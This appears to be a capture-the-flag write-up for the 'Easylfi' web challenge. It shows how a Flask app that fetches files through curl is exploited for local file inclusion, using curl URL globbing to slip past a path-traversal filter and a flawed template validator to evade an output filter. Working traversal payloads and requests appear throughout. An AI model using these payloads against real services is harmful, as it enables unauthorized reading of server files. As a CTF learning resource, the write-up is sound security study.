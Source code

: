 ```yaml
---
title: Easylfi
published: true
ayout: post
date: 2020-10-15 18:54 +0600
tags: [CTF]
featured: false
---
```


I solved some web challenges with my idol ginoah. The challenges are awesome!

Description:

Can you read my secret?

The goal is to LFI /flag.txt

This flask app use curl to get a local file

```code
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
```

where filename is a path parameter

```code
@app.route("/")
@app.route("/<path:filename>")
def index(filename: str = "index.html"):
```

Apparently, we need to traverse like ../../../../flag.txt

There are two WAFs. The first one filter filename with % or ..

```code
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("
```

Here, we use [URL globbing](https://everything.curl.dev/cmdline/globbing) to bypass the first WAF. {.}{.}/ equals to ../ , so

we can access flag.txt with {.}{.}/{.}{.}/flag.txt

The second WAF filter any response with content SECCON

```code
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response(b"Try harder")
    return response
```

I found a logic flaw in validate func used by custom template func. We can substitue any string for { , though the function is intented to allow only keys like {...}

```code
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
```

But there's still a problem. We can only replace one { now, and it is not enough to enclose SECCON in curly brackets.

ginoah found that we can use {.,.} to make the filename we curl reflected in the output. e.g.

```code
$ curl 'file:///app/public/{.}{.}/{.}{.}/flag.tx{\{,t}'
--_curl_--file:///app/public/../../flag.tx{
--_curl_--file:///app/public/../../flag.txt
SECCON{dummydummy}
```

Now we have two { , we can replace the output twice to eliminate string SECCON by GET /{.}{.}/{.}{.}/flag.tx{\{,t}?{=}{&{%0a--curl--file:///app/public/../../flag.txt%0aSECCON}=FLAG

The original solution by ginoah is trickier and shorter than it. We can use query string in file:// protocol, though it takes no effect.  The query string is revealed in the output e.g.

```code
$ curl 'file:///app/public/{.}{.}/{.}{.,.}/flag.txt?\{'
--_curl_--file:///app/public/../../flag.txt?{
SECCON{dummydummy}
--_curl_--file:///app/public/../../flag.txt?{
SECCON{dummydummy}
```

Then, we can get the flag by

```GET /{.}{.}/{.}{.}/{.}{.,.}/flag.txt%3f\{?{=}{&{%0aSECCON}=x```